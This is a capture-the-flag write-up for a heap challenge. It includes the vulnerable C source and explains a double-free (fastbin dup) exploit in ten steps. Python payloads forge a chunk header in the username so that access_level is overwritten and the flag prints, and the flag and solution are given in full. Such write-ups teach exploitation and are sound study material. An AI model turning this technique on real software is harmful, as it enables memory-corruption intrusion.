

# Slow bin

*Hard*

>### Description
>Typical heap challenge - malloc, free and flag...\
>`nc rivit.dev 10014`

## Solution

### Recon

When you connect to the server, you get this menu.



It seems the program is doing something with malloc and then freeing the memory. The vulnerability probably has something to do with this.

First, get basic information about the program with `checksec`:
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x1fe000)
    RUNPATH:    b'.'
    Stripped:   No
    Debuginfo:  Yes
```

Now, lets look at the provided source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <malloc.h>
#include <unistd.h>
#include <stdint.h>

#define MAX_CHUNKS 6

struct User {
    char username[32];
    uint64_t access_level;
};

struct User user;

uint64_t read_num(){
    char input[32];
    memset(input, 0, sizeof(input));
    read(STDIN_FILENO, input, 0x1F);
    return strtoull(input, 0, 10);
}

void try_flag(){
    if(user.access_level != 0x1337){
        puts("Not so easy!");
        return;
    }

    FILE *f = fopen("./flag.txt", "rt");
    if (f == NULL){
        puts("Error reading flag");
        return;
    }

    char flag[64];
    fgets(flag, sizeof(flag), f);
    fclose(f);
    puts(flag);
}

void menu() {
    unsigned int idx = 0;
    char *chunks[MAX_CHUNKS];
    memset(chunks, 0, MAX_CHUNKS * sizeof(char *));

    printf("Username: ");
    memset(&user, 0, sizeof(struct User));
    read(STDIN_FILENO, user.username, sizeof(user.username));
    printf("Logged as %s", user.username);

    while(1){
        printf("\n1) malloc %u/%u\n", idx, MAX_CHUNKS);
        puts("2) free");
        puts("3) display flag");
        puts("4) quit");

        printf("> ");
        long c = read_num();

        switch (c)
        {
        case 1:
            if(idx >= MAX_CHUNKS){
                puts("Maximum requests reached");
                return;
            }

            printf("Size: ");
            uint64_t size = read_num();
            if(size > 120){
                puts("Max 120 bytes");
                break;
            }

            chunks[idx] = malloc(size);
            if(chunks[idx]){
                printf("Data: ");
                read(STDIN_FILENO, chunks[idx++], size);
            }else{
                puts("malloc failed");
            }
            break;

        case 2:
            printf("Index: ");
            uint64_t idx = read_num();
            if(idx >= MAX_CHUNKS){
                puts("Invalid chunk");
                break;
            }

            free(chunks[idx]);
            break;

        case 3:
            try_flag();
            break;

        case 4:
            return;

        default:
            puts("Invalid option");
            break;
        }
    }
}

int main(void){
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    menu();

        return 0;
}
```

We still have access to the memory pointer after we free the corresponding chunk. So this allows us to free memory that is already free. But we have to be carefull, because the program crashes when we free the same memory twice in a row.

When a block of memory is freed, the first 64 bits will become the address of the previously freed block of memory. (This creates the freelist, which is a singly-linked-list). 

### Exploit

So how exactly do we exploit this? Well, just follow these steps:
1. malloc memory with size x (index=0)
2. malloc memory with size y (index=1)
3. free memory from index 0
4. free memory from index 1
5. free memory from index 0
6. malloc memory with size x, with first 64 bits being the address of user.access_level-0x10 (index=2)
7. malloc memory with size y to fill the space (index=3)
8. malloc memory with size x, this overwrites step 6, and uses the malicious address as next free memory address (index=4)
9. malloc memory with size z to overwrite the user.access_level to 0x1337 (index=5)
10. Enter option 3 to read the flag

The part of memory where the user is stored looks something like this:
```
0x2040e0 <user>:        0x68686868      0x68686868      0x68686868      0x68686868
0x2040f0 <user+16>:     0x68686868      0x68686868      0x00000a68      0x00000000
0x204100 <user+32>:     0x00000000      0x00000000      0x00000000      0x00000000
```

But for us to succesfully write to this location, it must have some sort of header that contains the length. Note that the length will automatically be rounded up to the nearest 0x10 because it is a 64bit program. (And it will be +1 since it accounts for the termination byte)

`user.access_level` is stored on 0x204100 and it is 16 hex characters long (=64 bit). And to account for the header which is 0x10 bytes long, we will use 0x2040f0 (\<user+16\>) as the address in our payload.

We can see how the header+data will look like, with length of 0x21:
```
0x00000000      0x00000000      0x00000021      0x00000000
0x5a5a5a5a      0x5a5a5a5a      0x00000000      0x00000000
```

Luckily our username is stored right above the access_level. So our username must first have 16 characters, and then end in "0x00000000      0x00000000      0x00000021      0x00000000" to act as the *header* for the malloc.

So now I write a python script to exploit this.

These will be the payloads:
```python
username = b'a'*16 + b'\x00'*8 + b'\x21' + b'\x00'*7
payload1 = p64(0x2040f0)
payload2 = p64(0x1337)
```

I use these simple functions to step-by-step follow the exploit I explained above.
```python
def do_malloc(size, data):
        p.recvuntil(b'> ')
        p.sendline(b'1')
        p.recvuntil(b'Size: ')
        p.sendline(size)
        p.recvuntil(b'Data: ')
        p.sendline(data)

def do_free(i):
        p.recvuntil(b'> ')
        p.sendline(b'2')
        p.recvuntil(b'Index: ')
        p.sendline(i)
```

View the whole python file [here](./exploit.py).

<details>
<summary>Yes! We got the flag:</summary> 
CTFlearn{d0ubl3_fr33_f0r_th3_w1n}
</details>